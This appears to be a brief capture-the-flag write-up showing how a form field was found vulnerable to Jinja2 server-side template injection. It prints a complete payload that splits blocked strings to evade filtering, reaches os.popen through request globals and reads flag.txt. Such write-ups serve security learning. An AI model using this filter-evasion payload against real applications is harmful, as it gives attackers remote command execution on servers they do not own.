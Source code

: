 
### Lab (pentathon '25)

Capturing the request and sending it, we can see that the `name` field is reflected back to us. Before trying `sqli` we input characters like `<>` to see if we can do `xss` payload. We also try `{{}}` to check for `ssti` (template injection).
Sending `{{7*7}}` we get back `49`. So the site is vulnerable to `SSTI`.

> After the server blocking some request and either giving us error or not allowed we get some progress using `{{request}}`.

Payload used for SSTI 
```
name={% set b = request.application[['__glo','bals__'] | join][['__buil','tins__'] | join] %}
{% set i = b[['__impo','rt__'] | join] %}
{% set o = i(['o','s'] | join) %}
{% set p = o[['po','pen'] | join] %}
{% set cmd = ['c','a','t',' ','fl','ag','.txt'] | join %}
{{p(cmd).read()}}
&email=test%40mail.com&message=Test
```



### References

Jinja2 - [Server Side Template Injection with Jinja2 for you now](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)